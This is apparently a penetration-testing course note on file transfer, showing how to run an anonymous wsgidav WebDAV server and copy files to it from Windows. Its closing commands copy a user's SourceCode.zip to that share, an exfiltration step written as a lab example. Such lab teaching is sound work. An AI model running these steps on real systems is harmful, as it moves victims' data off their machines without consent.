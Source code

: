```yaml
---
tags:
  - Information
---
```

An alternative is to run SMB over HTTP with `WebDav`. `WebDAV` [(RFC 4918)](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.

#### Configuring WebDav Server

To set up our WebDav server, we need to install two Python modules, `wsgidav` and `cheroot` (you can read more about this implementation here: [wsgidav github](https://github.com/mar10/wsgidav). After installing them, we run the `wsgidav` application in the target directory.

```shell-session
sudo pip3 install wsgidav cheroot
```

#### Using the WebDav Python module

```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

#### Connecting to the Webdav Share

```cmd-session
dir \\192.168.49.128\DavWWWRoot
```


> [!NOTE]
> `DavWWWRoot` is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.
> 
> You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder

#### Uploading Files using SMB 

```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```